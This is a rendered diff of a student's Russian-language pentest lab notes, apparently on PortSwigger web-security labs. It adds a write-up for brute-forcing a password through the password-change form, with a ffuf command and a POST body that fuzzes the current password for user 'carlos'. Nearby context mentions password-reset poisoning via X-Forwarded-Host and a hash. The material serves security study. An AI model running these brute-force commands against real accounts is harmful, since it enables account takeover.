

Before and after one commit to mikhail-alaska/hse, a Markdown page: pentest/pr5/Nikolaev_mikhail_pr5.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Scripted auto-commit on change (2025-10-22 17:46:44) by gitwatch.sh

````diff
--- a/pentest/pr5/Nikolaev_mikhail_pr5.md
+++ b/pentest/pr5/Nikolaev_mikhail_pr5.md
@@ -139,3 +139,17 @@ carlos:26323c16d5f4dabff3bb136f2460a943
 Тут нужно было догадаться использовать header X-Forwarded-Host. Который перенаправляет на наш сайт, откуда мы и берем токен на ресет пароля.
 
 ## 12. Lab: Password brute-force via password change
+
+Тут дело в том, что при смене пароля юзера можно прямо в параметрах post запроса указать. и если его пароль введен правильно, а новые пароли не совпадают,
+то будет уникальная строка, по которой можно мэтчить
+
+```
+ffuf -request req.txt -request-proto https \
+  -w pass.txt \
+  -c -mr "New passwords do not match"
+```
+
+вот и сама строка:
+```
+username=carlos&current-password=FUZZ&new-password-1=qwe&new-password-2=qww
+```
````
